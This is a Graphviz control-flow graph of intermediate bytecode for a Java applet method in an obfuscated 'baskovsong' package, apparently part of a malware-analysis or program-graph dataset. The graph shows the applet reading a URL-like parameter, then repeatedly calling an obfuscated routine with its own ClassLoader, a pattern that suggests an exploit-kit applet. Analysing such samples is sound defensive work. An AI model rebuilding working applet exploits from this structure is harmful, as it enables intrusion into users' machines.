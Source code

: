 digraph "" {
    "r0 := @this: baskovsong.baskovsong"
    "load.r r0"
    "r0 := @this: baskovsong.baskovsong"->"load.r r0";
    "push \"t\""
    "load.r r0"->"push \"t\"";
    "virtualinvoke <baskovsong.baskovsong: java.lang.String getParameter(java.lang.String)>"
    "push \"t\""->"virtualinvoke <baskovsong.baskovsong: java.lang.String getParameter(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "virtualinvoke <baskovsong.baskovsong: java.lang.String getParameter(java.lang.String)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticput <baskovsong.baskovsong: int type>"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"staticput <baskovsong.baskovsong: int type>";
    "goto new baskovsong.XLR"
    "staticput <baskovsong.baskovsong: int type>"->"goto new baskovsong.XLR";
    "new baskovsong.XLR"
    "goto new baskovsong.XLR"->"new baskovsong.XLR";
    "store.r $r7"
    "new baskovsong.XLR"->"store.r $r7";
    "load.r $r7"
    "store.r $r7"->"load.r $r7";
    "specialinvoke <baskovsong.XLR: void <init>()>"
    "load.r $r7"->"specialinvoke <baskovsong.XLR: void <init>()>";
    "specialinvoke <baskovsong.XLR: void <init>()>"->"load.r r0";
    "push \"ur0l0\""
    "load.r r0"->"push \"ur0l0\"";
    "push \"ur0l0\""->"virtualinvoke <baskovsong.baskovsong: java.lang.String getParameter(java.lang.String)>";
    "staticput <baskovsong.baskovsong: java.lang.String par>"
    "virtualinvoke <baskovsong.baskovsong: java.lang.String getParameter(java.lang.String)>"->"staticput <baskovsong.baskovsong: java.lang.String par>";
    "push 0"
    "staticput <baskovsong.baskovsong: java.lang.String par>"->"push 0";
    "store.i $r12"
    "push 0"->"store.i $r12";
    "load.i $r12"
    "store.i $r12"->"load.i $r12";
    "push 100000"
    "load.i $r12"->"push 100000";
    "ifcmpge.i push 10L"
    "push 100000"->"ifcmpge.i push 10L";
    "ifcmpge.i push 10L"->"load.r $r7";
    "push null"
    "load.r $r7"->"push null";
    "push null"->"push null";
    "push \"TYR^UYU&^FTGHsgdewhfdywgeew6ur3gf7ewywfgjdfhgsdjhfgewyuuw63fe\""
    "push null"->"push \"TYR^UYU&^FTGHsgdewhfdywgeew6ur3gf7ewywfgjdfhgsdjhfgewyuuw63fe\"";
    "push \"Dr\""
    "push \"TYR^UYU&^FTGHsgdewhfdywgeew6ur3gf7ewywfgjdfhgsdjhfgewyuuw63fe\""->"push \"Dr\"";
    "push \"Dr\""->"push null";
    "virtualinvoke <baskovsong.XLR: baskovsong.zdsf3232sasaas222 bgnyre5htr(java.lang.Object,java.lang.ClassLoader,java.lang.String,java.lang.String,java.lang.Object)>"
    "push null"->"virtualinvoke <baskovsong.XLR: baskovsong.zdsf3232sasaas222 bgnyre5htr(java.lang.Object,java.lang.ClassLoader,java.lang.String,java.lang.String,java.lang.Object)>";
    "pop"
    "virtualinvoke <baskovsong.XLR: baskovsong.zdsf3232sasaas222 bgnyre5htr(java.lang.Object,java.lang.ClassLoader,java.lang.String,java.lang.String,java.lang.Object)>"->"pop";
    "inc.i $r12 1"
    "pop"->"inc.i $r12 1";
    "goto load.i $r12"
    "inc.i $r12 1"->"goto load.i $r12";
    "push 10L"
    "ifcmpge.i push 10L"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 0";
    "goto push 0"->"push 0";
    "push 0"->"load.r $r7";
    "load.r $r7"->"push null";
    "push null"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"push \"TYR^UYU&^FTGHsgdewhfdywgeew6ur3gf7ewywfgjdfhgsdjhfgewyuuw63fe\"";
    "push \"TYR^UYU&^FTGHsgdewhfdywgeew6ur3gf7ewywfgjdfhgsdjhfgewyuuw63fe\""->"push \"TYR^UYU&^FTGHsgdewhfdywgeew6ur3gf7ewywfgjdfhgsdjhfgewyuuw63fe\"";
    "push \"TYR^UYU&^FTGHsgdewhfdywgeew6ur3gf7ewywfgjdfhgsdjhfgewyuuw63fe\""->"push null";
    "push null"->"virtualinvoke <baskovsong.XLR: baskovsong.zdsf3232sasaas222 bgnyre5htr(java.lang.Object,java.lang.ClassLoader,java.lang.String,java.lang.String,java.lang.Object)>";
    "staticinvoke <baskovsong.zdsf3232sasaas222: void dsfdgtrhy5etwerfgre(int,baskovsong.zdsf3232sasaas222)>"
    "virtualinvoke <baskovsong.XLR: baskovsong.zdsf3232sasaas222 bgnyre5htr(java.lang.Object,java.lang.ClassLoader,java.lang.String,java.lang.String,java.lang.Object)>"->"staticinvoke <baskovsong.zdsf3232sasaas222: void dsfdgtrhy5etwerfgre(int,baskovsong.zdsf3232sasaas222)>";
    "return"
    "staticinvoke <baskovsong.zdsf3232sasaas222: void dsfdgtrhy5etwerfgre(int,baskovsong.zdsf3232sasaas222)>"->"return";
    "store.r $r12"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r $r12";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.r $r7";
}
